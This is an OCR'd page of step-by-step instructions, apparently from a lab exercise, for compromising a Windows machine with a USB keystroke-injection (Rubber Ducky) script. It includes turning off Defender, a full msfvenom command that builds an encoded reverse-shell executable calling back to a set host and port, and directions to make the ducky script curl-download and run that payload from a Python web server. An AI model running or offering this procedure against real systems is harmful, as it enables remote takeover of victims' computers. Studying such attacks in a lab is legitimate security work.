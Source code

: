Hashcat -m 2100

### Instructions 

1. Create a Windows VM from scratch (Windows  
pro or education edition)  
2. Create a local admin user  
a. Turn off Defender AV  
3. Install Python onto the VM  
a. Add python to path  
4. Use msfvenom on Kali to make a  
windows/x64/shell_reverse_tcp exe payload  

	msfvenom -p windows/shell/reverse_tcp  -e x86/shikata_ga_nai LHOST=192.168.126.141 LPORT=12345 -f exe -o ~/REVERSE_SHELL.exe

5. Use python on kali to host a web server  
6. Rewrite the ducky script to use curl to  
download the script to c:\Windows\Temp  
a. -o flag is useful  
b. Will need to run the run_payload function more  
than once  
c. Good to sleep a bit in between commands to  
ensure the payload is downloaded before  
running